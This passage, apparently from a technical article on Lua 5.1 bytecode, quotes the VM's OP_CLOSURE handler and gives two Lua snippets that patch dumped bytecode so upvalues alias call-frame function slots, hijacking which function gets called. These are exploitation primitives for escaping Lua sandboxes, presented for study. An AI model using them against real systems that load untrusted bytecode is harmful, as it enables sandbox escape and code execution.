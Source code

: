 ```c
case OP_CLOSURE:
  Proto *p;
  Closure *ncl;
  int nup, j;
  p = cl->p->p[GETARG_Bx(i)];
  nup = p->nups;
  ncl = luaF_newLclosure(L, nup, cl->env);
  ncl->l.p = p;
  for (j=0; j<nup; j++, pc++) {
    if (GET_OPCODE(*pc) == OP_GETUPVAL)
      ncl->l.upvals[j] = cl->upvals[GETARG_B(*pc)];
    else {
      lua_assert(GET_OPCODE(*pc) == OP_MOVE);
      ncl->l.upvals[j] = luaF_findupval(L, base + GETARG_B(*pc));
    }
  }
  setclvalue(L, ra, ncl);
  Protect(luaC_checkGC(L));
```

In the cases we're interested in, an `OP_CLOSURE` instruction is followed by one dummy `OP_MOVE` instruction for each upvalue, which collectively specify which `TValue`s of the current call frame should be pointed to by the closure's `UpVal` structures. In generated bytecode, the specified `TValue`s can only be parameters or local variables of the current call frame, but when writing bytecode manually, the specified `TValue`s can be any members of the current call frame.

In particular, when writing bytecode manually we can point `UpVal`s at the same stack slots that the next call frame's `CallInfo::func` field points to. The following example gives a simple case of this, where `print(magic)` doesn't print `nil`:

```lua
loadstring(string.dump(function()
  local magic = nil
  local function middle()
    print(magic) --> function: 0051639
  end
  middle()
end):gsub("(\100%z%z%z)....", "%1\0\0\0\1"))()
```

As a more interesting example, we can change the `TValue` pointed to by the `UpVal`, and then return to the call frame whose `CallInfo::func` pointed at the same `TValue`:

```lua
loadstring(string.dump(function()
  local magic = nil
  local function middle()
    local function inner()
      magic = inner
      return "print", "World"
    end
    inner()
    print("Hello") --> World
  end
  middle()
end):gsub("(\100%z%z%z)....", "%1\0\0\0\1", 1))()
```


[IEEE754-1985]: http://en.wikipedia.org/wiki/IEEE_754-1985#Representation_of_numbers
[vstruct]: https://github.com/ToxicFrog/vstruct/blob/master/vstruct/io/f.lua